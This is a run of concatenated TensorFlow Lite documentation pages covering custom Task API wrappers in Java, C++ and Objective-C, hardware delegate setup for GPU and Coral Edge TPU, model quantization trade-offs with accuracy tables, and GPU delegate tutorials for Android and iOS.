                                            String context, String question // API I/O
                                           );

    }
    ```

*   __Create factory functions of the API__ - This also mirrors native factory
    functions, except Android factory functions also need to take
    [`Context`](https://developer.android.com/reference/android/content/Context)
    for file access. The implementation calls one of the utilities in
    [`TaskJniUtils`](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/java/src/java/org/tensorflow/lite/task/core/TaskJniUtils.java)
    to build the corresponding C++ API object and pass its pointer to the
    `BaseTaskApi` constructor.

    ```java
      class BertQuestionAnswerer extends BaseTaskApi {
        private static final String BERT_QUESTION_ANSWERER_NATIVE_LIBNAME =
                                                  "bert_question_answerer_jni";

        // Extending super constructor by providing the
        // native handle(pointer of corresponding C++ API object)
        private BertQuestionAnswerer(long nativeHandle) {
          super(nativeHandle);
        }

        public static BertQuestionAnswerer createBertQuestionAnswerer(
                                            Context context, // Accessing Android files
                                            String pathToModel, String pathToVocab) {
          return new BertQuestionAnswerer(
              // The util first try loads the JNI module with name
              // BERT_QUESTION_ANSWERER_NATIVE_LIBNAME, then opens two files,
              // converts them into ByteBuffer, finally ::initJniWithBertByteBuffers
              // is called with the buffer for a C++ API object pointer
              TaskJniUtils.createHandleWithMultipleAssetFilesFromLibrary(
                  context,
                  BertQuestionAnswerer::initJniWithBertByteBuffers,
                  BERT_QUESTION_ANSWERER_NATIVE_LIBNAME,
                  pathToModel,
                  pathToVocab));
        }

        // modelBuffers[0] is tflite model file buffer, and modelBuffers[1] is vocab file buffer.
        // returns C++ API object pointer casted to long
        private static native long initJniWithBertByteBuffers(ByteBuffer... modelBuffers);

      }
    ```

*   __Implement the JNI module for native functions__ - All Java native methods
    are implemented by calling a corresponding native function from the JNI
    module. The factory functions would create a native API object and return
    its pointer as a long type to Java. In later calls to Java API, the long
    type pointer is passed back to JNI and cast back to the native API object.
    The native API results are then converted back to Java results.

    For example, this is how
    [bert_question_answerer_jni](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/java/src/native/task/text/qa/bert_question_answerer_jni.cc)
    is implemented.

    ```cpp
      // Implements BertQuestionAnswerer::initJniWithBertByteBuffers
      extern "C" JNIEXPORT jlong JNICALL
      Java_org_tensorflow_lite_task_text_qa_BertQuestionAnswerer_initJniWithBertByteBuffers(
          JNIEnv* env, jclass thiz, jobjectArray model_buffers) {
        // Convert Java ByteBuffer object into a buffer that can be read by native factory functions
        absl::string_view model =
            GetMappedFileBuffer(env, env->GetObjectArrayElement(model_buffers, 0));

        // Creates the native API object
        absl::StatusOr<std::unique_ptr<QuestionAnswerer>> status =
            BertQuestionAnswerer::CreateFromBuffer(
                model.data(), model.size());
        if (status.ok()) {
          // converts the object pointer to jlong and return to Java.
          return reinterpret_cast<jlong>(status->release());
        } else {
          return kInvalidPointer;
        }
      }

      // Implements BertQuestionAnswerer::answerNative
      extern "C" JNIEXPORT jobject JNICALL
      Java_org_tensorflow_lite_task_text_qa_BertQuestionAnswerer_answerNative(
      JNIEnv* env, jclass thiz, jlong native_handle, jstring context, jstring question) {
      // Convert long to native API object pointer
      QuestionAnswerer* question_answerer = reinterpret_cast<QuestionAnswerer*>(native_handle);

      // Calls the native API
      std::vector<QaAnswer> results = question_answerer->Answer(JStringToString(env, context),
                                             JStringToString(env, question));

      // Converts native result(std::vector<QaAnswer>) to Java result(List<QaAnswerer>)
      jclass qa_answer_class =
        env->FindClass("org/tensorflow/lite/task/text/qa/QaAnswer");
      jmethodID qa_answer_ctor =
        env->GetMethodID(qa_answer_class, "<init>", "(Ljava/lang/String;IIF)V");
      return ConvertVectorToArrayList<QaAnswer>(
        env, results,
        [env, qa_answer_class, qa_answer_ctor](const QaAnswer& ans) {
          jstring text = env->NewStringUTF(ans.text.data());
          jobject qa_answer =
              env->NewObject(qa_answer_class, qa_answer_ctor, text, ans.pos.start,
                             ans.pos.end, ans.pos.logit);
          env->DeleteLocalRef(text);
          return qa_answer;
        });
      }

      // Implements BaseTaskApi::deinitJni by delete the native object
      extern "C" JNIEXPORT void JNICALL Java_task_core_BaseTaskApi_deinitJni(
          JNIEnv* env, jobject thiz, jlong native_handle) {
        delete reinterpret_cast<QuestionAnswerer*>(native_handle);
      }
    ```

### iOS API

Create iOS APIs by wrapping a native API object into a ObjC API object. The
created API object can be used in either ObjC or Swift. iOS API requires the
native API to be built first.

#### Sample usage

Here is an example using ObjC
[`TFLBertQuestionAnswerer`](https://github.com/tensorflow/tflite-support/blob/master/tensorflow_lite_support/ios/task/text/qa/Sources/TFLBertQuestionAnswerer.h)
for [MobileBert](https://tfhub.dev/tensorflow/lite-model/mobilebert/1/default/1)
in Swift.

```swift
  static let mobileBertModelPath = "path/to/model.tflite";
  // Create the API from a model file and vocabulary file
  let mobileBertAnswerer = TFLBertQuestionAnswerer.mobilebertQuestionAnswerer(
      modelPath: mobileBertModelPath)

  static let context = ...; // context of a question to be answered
  static let question = ...; // question to be answered
  // ask a question
  let answers = mobileBertAnswerer.answer(
      context: TFLBertQuestionAnswererTest.context, question: TFLBertQuestionAnswererTest.question)
  // answers.[0].text is the best answer
```

#### Building the API

<div align="center">
<div align="center">Figure 4. iOS Task API
<div align="left">

iOS API is a simple ObjC wrapper on top of native API. Build the API by
following the steps below:

*   **Define the ObjC wrapper** - Define an ObjC class and delegate the
    implementations to the corresponding native API object. Note the native
    dependencies can only appear in a .mm file due to Swift's inability to
    interop with C++.

    *   .h file

    ```objc
      @interface TFLBertQuestionAnswerer : NSObject

      // Delegate calls to the native BertQuestionAnswerer::CreateBertQuestionAnswerer
      + (instancetype)mobilebertQuestionAnswererWithModelPath:(NSString*)modelPath
                                                    vocabPath:(NSString*)vocabPath
          NS_SWIFT_NAME(mobilebertQuestionAnswerer(modelPath:vocabPath:));

      // Delegate calls to the native BertQuestionAnswerer::Answer
      - (NSArray<TFLQAAnswer*>*)answerWithContext:(NSString*)context
                                         question:(NSString*)question
          NS_SWIFT_NAME(answer(context:question:));
    }
    ```

    *   .mm file

    ```objc
      using BertQuestionAnswererCPP = ::tflite::task::text::BertQuestionAnswerer;

      @implementation TFLBertQuestionAnswerer {
        // define an iVar for the native API object
        std::unique_ptr<QuestionAnswererCPP> _bertQuestionAnswerwer;
      }

      // Initialize the native API object
      + (instancetype)mobilebertQuestionAnswererWithModelPath:(NSString *)modelPath
                                              vocabPath:(NSString *)vocabPath {
        absl::StatusOr<std::unique_ptr<QuestionAnswererCPP>> cQuestionAnswerer =
            BertQuestionAnswererCPP::CreateBertQuestionAnswerer(MakeString(modelPath),
                                                                MakeString(vocabPath));
        _GTMDevAssert(cQuestionAnswerer.ok(), @"Failed to create BertQuestionAnswerer");
        return [[TFLBertQuestionAnswerer alloc]
            initWithQuestionAnswerer:std::move(cQuestionAnswerer.value())];
      }

      // Calls the native API and converts C++ results into ObjC results
      - (NSArray<TFLQAAnswer *> *)answerWithContext:(NSString *)context question:(NSString *)question {
        std::vector<QaAnswerCPP> results =
          _bertQuestionAnswerwer->Answer(MakeString(context), MakeString(question));
        return [self arrayFromVector:results];
      }
    }
    ```
# TensorFlow Lite Task Library

TensorFlow Lite Task Library contains a set of powerful and easy-to-use
task-specific libraries for app developers to create ML experiences with TFLite.
It provides optimized out-of-box model interfaces for popular machine learning
tasks, such as image classification, question and answer, etc. The model
interfaces are specifically designed for each task to achieve the best
performance and usability. Task Library works cross-platform and is supported on
Java, C++, and Swift.

## What to expect from the Task Library

*   **Clean and well-defined APIs usable by non-ML-experts** \
    Inference can be done within just 5 lines of code. Use the powerful and
    easy-to-use APIs in the Task library as building blocks to help you easily
    develop ML with TFLite on mobile devices.

*   **Complex but common data processing** \
    Supports common vision and natural language processing logic to convert
    between your data and the data format required by the model. Provides the
    same, shareable processing logic for training and inference.

*   **High performance gain** \
    Data processing would take no more than a few milliseconds, ensuring the
    fast inference experience using TensorFlow Lite.

*   **Extensibility and customization** \
    You can leverage all benefits the Task Library infrastructure provides and
    easily build your own Android/iOS inference APIs.

## Supported tasks

Below is the list of the supported task types. The list is expected to grow as
we continue enabling more and more use cases.

*   **Vision APIs**

    *   [ImageClassifier](image_classifier.md)
    *   [ObjectDetector](object_detector.md)
    *   [ImageSegmenter](image_segmenter.md)

*   **Natural Language (NL) APIs**

    *   [NLClassifier](nl_classifier.md)
    *   [BertNLCLassifier](bert_nl_classifier.md)
    *   [BertQuestionAnswerer](bert_question_answerer.md)

*   **Audio APIs**

    *   [AudioClassifier](audio_classifier.md)

*   **Custom APIs**

    *   Extend Task API infrastructure and build
        [customized API](customized_task_api.md).

## Run Task Library with Delegates

[Delegates](https://www.tensorflow.org/lite/performance/delegates) enable
hardware acceleration of TensorFlow Lite models by leveraging on-device
accelerators such as the [GPU](https://www.tensorflow.org/lite/performance/gpu)
and [Coral Edge TPU](https://coral.ai/). Utilizing them for neural network
operations provides huge benefits in terms of latency and power efficiency. For
example, GPUs can provide upto a
[5x speedup](https://blog.tensorflow.org/2020/08/faster-mobile-gpu-inference-with-opencl.html)
in latency on mobile devices, and Coral Edge TPUs inference
[10x faster](https://coral.ai/docs/edgetpu/benchmarks/) than desktop CPUs.

Task Library provides easy configuration and fall back options for you to set up
and use delegates. The following accelerators are now supported in the Task API:

*   Android
    *   [GPU](https://www.tensorflow.org/lite/performance/gpu): Java / C++
    *   [NNAPI](https://www.tensorflow.org/lite/performance/nnapi): Java / C++
    *   [Hexagon](https://www.tensorflow.org/lite/performance/hexagon_delegate):
        C++
*   Linux / Mac
    *   [Coral Edge TPU](https://coral.ai/): C++

[Core ML delegate](https://www.tensorflow.org/lite/performance/coreml_delegate)
for iOS, and acceleration supports in Task Java / Swift / Web API are coming
soon.

### Example usage of GPU on Android in Java

Step 1. Add the GPU delegate plugin library to your module's `build.gradle`
file:

```java
dependencies {
    // Import Task Library dependency for vision, text, or audio.

    // Import the GPU delegate plugin Library for GPU inference
    implementation 'org.tensorflow:tensorflow-lite-gpu-delegate-plugin:0.3.0'
}
```

Note: NNAPI comes with the Task Library targets for vision, text, and audio by
default.

Step 2. Configure GPU delegate in the task options through
[BaseOptions](https://www.tensorflow.org/lite/api_docs/java/org/tensorflow/lite/task/core/BaseOptions.Builder).
For example, you can set up GPU in `ObjectDetecor` as follows:

```java
// Turn on GPU delegation.
BaseOptions baseOptions = BaseOptions.builder().useGpu().build();
// Configure other options in ObjectDetector
ObjectDetectorOptions options =
    ObjectDetectorOptions.builder()
        .setBaseOptions(baseOptions)
        .setMaxResults(1)
        .build();

// Create ObjectDetector from options.
ObjectDetector objectDetector =
    ObjectDetector.createFromFileAndOptions(context, modelFile, options);

// Run inference
List<Detection> results = objectDetector.detect(image);
```

### Example usage of GPU on Android in C++

Step 1. Depend on the GPU delegate plugin in your bazel build target, such as:

```
deps = [
  "//tensorflow_lite_support/acceleration/configuration:gpu_plugin", # for GPU
]
```

Note: the `gpu_plugin` target is a separate one from the
[GPU delegate target](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/delegates/gpu).
`gpu_plugin` wraps the GPU delegate target, and can provide safty guard, i.e.
fallback to TFLite CPU path on delegation errors.

Other delegate options include:

```
"//tensorflow_lite_support/acceleration/configuration:nnapi_plugin", # for NNAPI
"//tensorflow_lite_support/acceleration/configuration:hexagon_plugin", # for Hexagon
```

Step 2. Configure GPU delegate in the task options. For example, you can set up
GPU in `BertQuestionAnswerer` as follows:

```c++
// Initialization
BertQuestionAnswererOptions options;
// Load the TFLite model.
auto base_options = options.mutable_base_options();
base_options->mutable_model_file()->set_file_name(model_file);
// Turn on GPU delegation.
auto tflite_settings = base_options->mutable_compute_settings()->mutable_tflite_settings();
tflite_settings->set_delegate(Delegate::GPU);
// (optional) Turn on automatical fallback to TFLite CPU path on delegation errors.
tflite_settings->mutable_fallback_settings()->set_allow_automatic_fallback_on_execution_error(true);

// Create QuestionAnswerer from options.
std::unique_ptr<QuestionAnswerer> answerer = BertQuestionAnswerer::CreateFromOptions(options).value();

// Run inference on GPU.
std::vector<QaAnswer> results = answerer->Answer(context_of_question, question_to_ask);
```

Explore more advanced accelerator settings
[here](https://github.com/tensorflow/tensorflow/blob/1a8e885b864c818198a5b2c0cbbeca5a1e833bc8/tensorflow/lite/experimental/acceleration/configuration/configuration.proto).

### Example usage of Coral Edge TPU in C++

Step 1. Depend on the Coral Edge TPU delegate plugin in your bazel build target,
such as:

```
deps = [
  "//tensorflow_lite_support/acceleration/configuration:edgetpu_coral_plugin", # for Coral Edge TPU
]
```

Step 2. Configure Coral Edge TPU in the task options. For example, you can set
up Coral Edge TPU in `ImageClassifier` as follows:

```c++
// Initialization
ImageClassifierOptions options;
// Load the TFLite model.
options.mutable_base_options()->mutable_model_file()->set_file_name(model_file);
// Turn on Coral Edge TPU delegation.
options.mutable_base_options()->mutable_compute_settings()->mutable_tflite_settings()->set_delegate(Delegate::EDGETPU_CORAL);
// Create ImageClassifier from options.
std::unique_ptr<ImageClassifier> image_classifier = ImageClassifier::CreateFromOptions(options).value();

// Run inference on Coral Edge TPU.
const ClassificationResult result = image_classifier->Classify(*frame_buffer).value();
```

Step 3. Install the `libusb-1.0-0-dev` package as below. If it is already
installed, skip to the next step.

```bash
# On the Linux
sudo apt-get install libusb-1.0-0-dev

# On the macOS
port install libusb
# or
brew install libusb
```

Step 4. Compile with the following configurations in your bazel command:

```bash
# On the Linux
--define darwinn_portable=1 --linkopt=-lusb-1.0

# On the macOS, add '--linkopt=-lusb-1.0 --linkopt=-L/opt/local/lib/' if you are
# using MacPorts or '--linkopt=-lusb-1.0 --linkopt=-L/opt/homebrew/lib' if you
# are using Homebrew.
--define darwinn_portable=1 --linkopt=-L/opt/local/lib/ --linkopt=-lusb-1.0

# Windows is not supported yet.
```

Try out the
[Task Library CLI demo tool](https://github.com/tensorflow/tflite-support/tree/master/tensorflow_lite_support/examples/task/vision/desktop)
with your Coral Edge TPU devices. Explore more on the
[pretrained Edge TPU models](https://coral.ai/models/) and
[advanced Edge TPU settings](https://github.com/tensorflow/tensorflow/blob/1a8e885b864c818198a5b2c0cbbeca5a1e833bc8/tensorflow/lite/experimental/acceleration/configuration/configuration.proto#L275).
# Model optimization

Edge devices often have limited memory or computational power. Various
optimizations can be applied to models so that they can be run within these
constraints. In addition, some optimizations allow the use of specialized
hardware for accelerated inference.

TensorFlow Lite and the
[TensorFlow Model Optimization Toolkit](https://www.tensorflow.org/model_optimization)
provide tools to minimize the complexity of optimizing inference.

It's recommended that you consider model optimization during your application
development process. This document outlines some best practices for optimizing
TensorFlow models for deployment to edge hardware.

## Why models should be optimized

There are several main ways model optimization can help with application
development.

### Size reduction

Some forms of optimization can be used to reduce the size of a model. Smaller
models have the following benefits:

-   **Smaller storage size:** Smaller models occupy less storage space on your
    users' devices. For example, an Android app using a smaller model will take
    up less storage space on a user's mobile device.
-   **Smaller download size:** Smaller models require less time and bandwidth to
    download to users' devices.
-   **Less memory usage:** Smaller models use less RAM when they are run, which
    frees up memory for other parts of your application to use, and can
    translate to better performance and stability.

Quantization can reduce the size of a model in all of these cases, potentially
at the expense of some accuracy. Pruning and clustering can reduce the size of a
model for download by making it more easily compressible.

### Latency reduction

*Latency* is the amount of time it takes to run a single inference with a given
model. Some forms of optimization can reduce the amount of computation required
to run inference using a model, resulting in lower latency. Latency can also
have an impact on power consumption.

Currently, quantization can be used to reduce latency by simplifying the
calculations that occur during inference, potentially at the expense of some
accuracy.

### Accelerator compatibility

Some hardware accelerators, such as the
[Edge TPU](https://cloud.google.com/edge-tpu/), can run inference extremely fast
with models that have been correctly optimized.

Generally, these types of devices require models to be quantized in a specific
way. See each hardware accelerator's documentation to learn more about their
requirements.

## Trade-offs

Optimizations can potentially result in changes in model accuracy, which must be
considered during the application development process.

The accuracy changes depend on the individual model being optimized, and are
difficult to predict ahead of time. Generally, models that are optimized for
size or latency will lose a small amount of accuracy. Depending on your
application, this may or may not impact your users' experience. In rare cases,
certain models may gain some accuracy as a result of the optimization process.

## Types of optimization

TensorFlow Lite currently supports optimization via quantization, pruning and
clustering.

These are part of the
[TensorFlow Model Optimization Toolkit](https://www.tensorflow.org/model_optimization),
which provides resources for model optimization techniques that are compatible
with TensorFlow Lite.

### Quantization

[Quantization](https://www.tensorflow.org/model_optimization/guide/quantization/post_training)
works by reducing the precision of the numbers used to represent a model's
parameters, which by default are 32-bit floating point numbers. This results in
a smaller model size and faster computation.

The following types of quantization are available in TensorFlow Lite:

Technique                                                                                               | Data requirements                | Size reduction | Accuracy                    | Supported hardware
------------------------------------------------------------------------------------------------------- | -------------------------------- | -------------- | --------------------------- | ------------------
[Post-training float16 quantization](post_training_float16_quant.ipynb)                                 | No data                          | Up to 50%      | Insignificant accuracy loss | CPU, GPU
[Post-training dynamic range quantization](post_training_quant.ipynb)                                   | No data                          | Up to 75%      | Smallest accuracy loss               | CPU, GPU (Android)
[Post-training integer quantization](post_training_integer_quant.ipynb)                                 | Unlabelled representative sample | Up to 75%      | Small accuracy loss       | CPU, GPU (Android), EdgeTPU, Hexagon DSP
[Quantization-aware training](http://www.tensorflow.org/model_optimization/guide/quantization/training) | Labelled training data           | Up to 75%      | Smallest accuracy loss      | CPU, GPU (Android), EdgeTPU, Hexagon DSP

The following decision tree helps you select the quantization schemes you might
want to use for your model, simply based on the expected model size and
accuracy.


Below are the latency and accuracy results for post-training quantization and
quantization-aware training on a few models. All latency numbers are measured on
Pixel 2 devices using a single big core CPU. As the toolkit improves, so will
the numbers here:

<figure>
  <table>
    <tr>
      <th>Model</th>
      <th>Top-1 Accuracy (Original) </th>
      <th>Top-1 Accuracy (Post Training Quantized) </th>
      <th>Top-1 Accuracy (Quantization Aware Training) </th>
      <th>Latency (Original) (ms) </th>
      <th>Latency (Post Training Quantized) (ms) </th>
      <th>Latency (Quantization Aware Training) (ms) </th>
      <th> Size (Original) (MB)</th>
      <th> Size (Optimized) (MB)</th>
    </tr> <tr><td>Mobilenet-v1-1-224</td><td>0.709</td><td>0.657</td><td>0.70</td>
      <td>124</td><td>112</td><td>64</td><td>16.9</td><td>4.3</td></tr>
    <tr><td>Mobilenet-v2-1-224</td><td>0.719</td><td>0.637</td><td>0.709</td>
      <td>89</td><td>98</td><td>54</td><td>14</td><td>3.6</td></tr>
   <tr><td>Inception_v3</td><td>0.78</td><td>0.772</td><td>0.775</td>
      <td>1130</td><td>845</td><td>543</td><td>95.7</td><td>23.9</td></tr>
   <tr><td>Resnet_v2_101</td><td>0.770</td><td>0.768</td><td>N/A</td>
      <td>3973</td><td>2868</td><td>N/A</td><td>178.3</td><td>44.9</td></tr>
 </table>
  <figcaption>
    <b>Table 1</b> Benefits of model quantization for select CNN models
  </figcaption>
</figure>

### Full integer quantization with int16 activations and int8 weights

[Quantization with int16 activations](https://www.tensorflow.org/model_optimization/guide/quantization/post_training)
is a full integer quantization scheme with activations in int16 and weights in
int8. This mode can improve accuracy of the quantized model in comparison to the
full integer quantization scheme with both activations and weights in int8
keeping a similar model size. It is recommended when activations are sensitive
to the quantization.

<i>NOTE:</i> Currently only non-optimized reference kernel implementations are
available in TFLite for this quantization scheme, so by default the performance
will be slow compared to int8 kernels. Full advantages of this mode can
currently be accessed via specialised hardware, or custom software.

Below are the accuracy results for some models that benefit from this mode.
<figure>
  <table>
    <tr>
      <th>Model</th>
      <th>Accuracy metric type </th>
      <th>Accuracy (float32 activations) </th>
      <th>Accuracy (int8 activations) </th>
      <th>Accuracy (int16 activations) </th>
    </tr> <tr><td>Wav2letter</td><td>WER</td><td>6.7%</td><td>7.7%</td>
      <td>7.2%</td></tr>
    <tr><td>DeepSpeech 0.5.1 (unrolled)</td><td>CER</td><td>6.13%</td><td>43.67%</td>
      <td>6.52%</td></tr>
    <tr><td>YoloV3</td><td>mAP(IOU=0.5)</td><td>0.577</td><td>0.563</td>
      <td>0.574</td></tr>
    <tr><td>MobileNetV1</td><td>Top-1 Accuracy</td><td>0.7062</td><td>0.694</td>
      <td>0.6936</td></tr>
    <tr><td>MobileNetV2</td><td>Top-1 Accuracy</td><td>0.718</td><td>0.7126</td>
      <td>0.7137</td></tr>
    <tr><td>MobileBert</td><td>F1(Exact match)</td><td>88.81(81.23)</td><td>2.08(0)</td>
      <td>88.73(81.15)</td></tr>
 </table>
  <figcaption>
    <b>Table 2</b> Benefits of model quantization with int16 activations
  </figcaption>
</figure>

### Pruning

[Pruning](https://www.tensorflow.org/model_optimization/guide/pruning) works by
removing parameters within a model that have only a minor impact on its
predictions. Pruned models are the same size on disk, and have the same runtime
latency, but can be compressed more effectively. This makes pruning a useful
technique for reducing model download size.

In the future, TensorFlow Lite will provide latency reduction for pruned models.

### Clustering

[Clustering](https://www.tensorflow.org/model_optimization/guide/clustering)
works by grouping the weights of each layer in a model into a predefined number
of clusters, then sharing the centroid values for the weights belonging to each
individual cluster. This reduces the number of unique weight values in a model,
thus reducing its complexity.

As a result, clustered models can be compressed more effectively, providing
deployment benefits similar to pruning.

## Development workflow

As a starting point, check if the models in
[hosted models](../guide/hosted_models.md) can work for your application. If
not, we recommend that users start with the
[post-training quantization tool](post_training_quantization.md) since this is
broadly applicable and does not require training data.

For cases where the accuracy and latency targets are not met, or hardware
accelerator support is important,
[quantization-aware training](https://www.tensorflow.org/model_optimization/guide/quantization/training){:.external}
is the better option. See additional optimization techniques under the
[TensorFlow Model Optimization Toolkit](https://www.tensorflow.org/model_optimization).

If you want to further reduce your model size, you can try [pruning](#pruning)
and/or [clustering](#clustering) prior to quantizing your models.
# TensorFlow Lite GPU delegate

[TensorFlow Lite](https://www.tensorflow.org/lite) supports several hardware
accelerators. This document describes how to use the GPU backend using the
TensorFlow Lite delegate APIs on Android and iOS.

GPUs are designed to have high throughput for massively parallelizable
workloads. Thus, they are well-suited for deep neural nets, which consist of a
huge number of operators, each working on some input tensor(s) that can be
easily divided into smaller workloads and carried out in parallel, typically
resulting in lower latency. In the best scenario, inference on the GPU may now
run fast enough for previously not available real-time applications.

Unlike CPUs, GPUs compute with 16-bit or 32-bit floating point numbers and do
not require quantization for optimal performance. The delegate does accept 8-bit
quantized models, but the calculation will be performed in floating point
numbers. Refer to the [advanced documentation](gpu_advanced.md) for details.

Another benefit with GPU inference is its power efficiency. GPUs carry out the
computations in a very efficient and optimized manner, so that they consume less
power and generate less heat than when the same task is run on CPUs.

## Demo app tutorials

The easiest way to try out the GPU delegate is to follow the below tutorials,
which go through building our classification demo applications with GPU support.
The GPU code is only binary for now; it will be open-sourced soon. Once you
understand how to get our demos working, you can try this out on your own custom
models.

### Android (with Android Studio)

For a step-by-step tutorial, watch the
[GPU Delegate for Android](https://youtu.be/Xkhgre8r5G0) video.

Note: This requires OpenCL or OpenGL ES (3.1 or higher).

#### Step 1. Clone the TensorFlow source code and open it in Android Studio

```sh
git clone https://github.com/tensorflow/tensorflow
```

#### Step 2. Edit `app/build.gradle` to use the nightly GPU AAR

Note: You can now target **Android S+** with `targetSdkVersion="S"` in your
manifest, or `targetSdkVersion "S"` in your Gradle `defaultConfig` (API level
TBD). In this case, you should merge the contents of
[`AndroidManifestGpu.xml`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/java/AndroidManifestGpu.xml)
into your Android application's manifest. Without this change, the GPU delegate
cannot access OpenCL libraries for acceleration. *AGP 4.2.0 or above is required
for this to work.*

Add the `tensorflow-lite-gpu` package alongside the existing `tensorflow-lite`
package in the existing `dependencies` block.

```
dependencies {
    ...
    implementation 'org.tensorflow:tensorflow-lite:2.3.0'
    implementation 'org.tensorflow:tensorflow-lite-gpu:2.3.0'
}
```

#### Step 3. Build and run

Run → Run ‘app’. When you run the application you will see a button for enabling
the GPU. Change from quantized to a float model and then click GPU to run on the
GPU.


### iOS (with XCode)

For a step-by-step tutorial, watch the
[GPU Delegate for iOS](https://youtu.be/a5H4Zwjp49c) video.

Note: This requires XCode v10.1 or later.

#### Step 1. Get the demo source code and make sure it compiles.

Follow our iOS Demo App [tutorial](https://www.tensorflow.org/lite/demo_ios).
This will get you to a point where the unmodified iOS camera demo is working on
your phone.

#### Step 2. Modify the Podfile to use the TensorFlow Lite GPU CocoaPod

From 2.3.0 release, by default GPU delegate is excluded from the pod to reduce
the binary size. You can include them by specifying subspec. For
`TensorFlowLiteSwift` pod:

```ruby
pod 'TensorFlowLiteSwift/Metal', '~> 0.0.1-nightly',
```

OR

```ruby
pod 'TensorFlowLiteSwift', '~> 0.0.1-nightly', :subspecs => ['Metal']
```

You can do similarly for `TensorFlowLiteObjC` or `TensorFlowLitC` if you want to
use the Objective-C (from 2.4.0 release) or C API.

<div>
  <devsite-expandable>
    <h4 class="showalways">Before 2.3.0 release</h4>
    <h4>Until TensorFlow Lite 2.0.0</h4>
    <p>
      We have built a binary CocoaPod that includes the GPU delegate. To switch
      the project to use it, modify the
      `tensorflow/tensorflow/lite/examples/ios/camera/Podfile` file to use the
      `TensorFlowLiteGpuExperimental` pod instead of `TensorFlowLite`.
    </p>
    <pre class="prettyprint lang-ruby notranslate" translate="no"><code>
    target 'YourProjectName'
      # pod 'TensorFlowLite', '1.12.0'
      pod 'TensorFlowLiteGpuExperimental'
    </code></pre>
    <h4>Until TensorFlow Lite 2.2.0</h4>
    <p>
      From TensorFlow Lite 2.1.0 to 2.2.0, GPU delegate is included in the
      `TensorFlowLiteC` pod. You can choose between `TensorFlowLiteC` and
      `TensorFlowLiteSwift` depending on the language.
    </p>
  </devsite-expandable>
</div>

#### Step 3. Enable the GPU delegate

To enable the code that will use the GPU delegate, you will need to change
`TFLITE_USE_GPU_DELEGATE` from 0 to 1 in `CameraExampleViewController.h`.

```c
#define TFLITE_USE_GPU_DELEGATE 1
```

#### Step 4. Build and run the demo app

After following the previous step, you should be able to run the app.

#### Step 5. Release mode

While in Step 4 you ran in debug mode, to get better performance, you should
change to a release build with the appropriate optimal Metal settings. In
particular, To edit these settings go to the `Product > Scheme > Edit
Scheme...`. Select `Run`. On the `Info` tab, change `Build Configuration`, from
`Debug` to `Release`, uncheck `Debug executable`.


Then click the `Options` tab and change `GPU Frame Capture` to `Disabled` and
`Metal API Validation` to `Disabled`.


Lastly make sure to select Release-only builds on 64-bit architecture. Under
`Project navigator -> tflite_camera_example -> PROJECT -> tflite_camera_example
-> Build Settings` set `Build Active Architecture Only > Release` to Yes.


## Trying the GPU delegate on your own model

### Android

Note: The TensorFlow Lite Interpreter must be created on the same thread as
where it is run. Otherwise, `TfLiteGpuDelegate Invoke: GpuDelegate must run on
the same thread where it was initialized.` may occur.

There are two ways to invoke model acceleration depending on if you are using
[Android Studio ML Model Binding](../inference_with_metadata/codegen#acceleration)
or TensorFlow Lite Interpreter.

#### TensorFlow Lite Interpreter

Look at the demo to see how to add the delegate. In your application, add the
AAR as above, import `org.tensorflow.lite.gpu.GpuDelegate` module, and use
the`addDelegate` function to register the GPU delegate to the interpreter:

<div>
  <devsite-selector>
    <section>
      <h3>Kotlin</h3>
      <p><pre class="prettyprint lang-kotlin">
    import org.tensorflow.lite.Interpreter
    import org.tensorflow.lite.gpu.CompatibilityList
    import org.tensorflow.lite.gpu.GpuDelegate

    val compatList = CompatibilityList()

    val options = Interpreter.Options().apply{
        if(compatList.isDelegateSupportedOnThisDevice){
            // if the device has a supported GPU, add the GPU delegate
            val delegateOptions = compatList.bestOptionsForThisDevice
            this.addDelegate(GpuDelegate(delegateOptions))
        } else {
            // if the GPU is not supported, run on 4 threads
            this.setNumThreads(4)
        }
    }

    val interpreter = Interpreter(model, options)

    // Run inference
    writeToInput(input)
    interpreter.run(input, output)
    readFromOutput(output)
      </pre></p>
    </section>
    <section>
      <h3>Java</h3>
      <p><pre class="prettyprint lang-java">
    import org.tensorflow.lite.Interpreter;
    import org.tensorflow.lite.gpu.CompatibilityList;
    import org.tensorflow.lite.gpu.GpuDelegate;

    // Initialize interpreter with GPU delegate
    Interpreter.Options options = new Interpreter.Options();
    CompatibilityList compatList = CompatibilityList();

    if(compatList.isDelegateSupportedOnThisDevice()){
        // if the device has a supported GPU, add the GPU delegate
        GpuDelegate.Options delegateOptions = compatList.getBestOptionsForThisDevice();
        GpuDelegate gpuDelegate = new GpuDelegate(delegateOptions);
        options.addDelegate(gpuDelegate);
    } else {
        // if the GPU is not supported, run on 4 threads
        options.setNumThreads(4);
    }

    Interpreter interpreter = new Interpreter(model, options);

    // Run inference
    writeToInput(input);
    interpreter.run(input, output);
    readFromOutput(output);
      </pre></p>
    </section>
  </devsite-selector>
</div>

### iOS

Note: GPU delegate can also use C API for Objective-C code. Prior to TensorFlow
Lite 2.4.0 release, this was the only option.

<div>
  <devsite-selector>
    <section>
      <h3>Swift</h3>
      <p><pre class="prettyprint lang-swift">
    import TensorFlowLite

    // Load model ...

    // Initialize TensorFlow Lite interpreter with the GPU delegate.
    let delegate = MetalDelegate()
    if let interpreter = try Interpreter(modelPath: modelPath,
                                         delegates: [delegate]) {
      // Run inference ...
    }
      </pre></p>
    </section>
    <section>
      <h3>Objective-C</h3>
      <p><pre class="prettyprint lang-objc">
    // Import module when using CocoaPods with module support
    @import TFLTensorFlowLite;

    // Or import following headers manually
    #import "tensorflow/lite/objc/apis/TFLMetalDelegate.h"
    #import "tensorflow/lite/objc/apis/TFLTensorFlowLite.h"

    // Initialize GPU delegate
    TFLMetalDelegate* metalDelegate = [[TFLMetalDelegate alloc] init];

    // Initialize interpreter with model path and GPU delegate
    TFLInterpreterOptions* options = [[TFLInterpreterOptions alloc] init];
    NSError* error = nil;
    TFLInterpreter* interpreter = [[TFLInterpreter alloc]
                                    initWithModelPath:modelPath
                                              options:options
                                            delegates:@[ metalDelegate ]
                                                error:&amp;error];
    if (error != nil) { /* Error handling... */ }

    if (![interpreter allocateTensorsWithError:&amp;error]) { /* Error handling... */ }
    if (error != nil) { /* Error handling... */ }

    // Run inference ...
    ```
      </pre></p>
    </section>
    <section>
      <h3>C (Until 2.3.0)</h3>
